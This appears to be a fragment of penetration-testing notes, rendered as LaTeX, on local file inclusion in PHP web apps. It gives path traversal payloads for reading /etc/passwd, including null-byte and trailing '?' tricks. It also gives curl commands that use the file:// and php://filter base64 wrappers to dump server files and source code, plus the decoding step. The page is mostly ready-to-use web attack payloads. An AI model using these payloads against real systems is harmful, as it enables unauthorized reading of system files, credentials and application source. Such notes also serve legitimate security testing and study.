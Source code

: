\documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
/proc/net/tcp

\begin{Shaded}
\end{Shaded}

\begin{quote}
{[} ! {]} Note: Be carefull to path traversal ?file=/../../../../../../../etc/passwd\\
{[} ! {]} Note: Try also null byte and interogation at the end (\%00 or ?) at the end -\textgreater{} ../../../etc/passwd\%00 or ../../../etc/passwd?
\end{quote}

Chrome check file as raw Ctrl+u

\hypertarget{wrappers}{%
\section*{Wrappers}\label{wrappers}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://localhost/example.php?file=file:///etc/passwd"}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://localhost/example.php?file=php://filter/convert.base64-encode/resource=example2.php"}

\BuiltInTok{echo} \StringTok{"<base64 code>"} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d}\KeywordTok{;} \BuiltInTok{echo}
\end{Highlighting}
\end{Shaded}
\end{document}

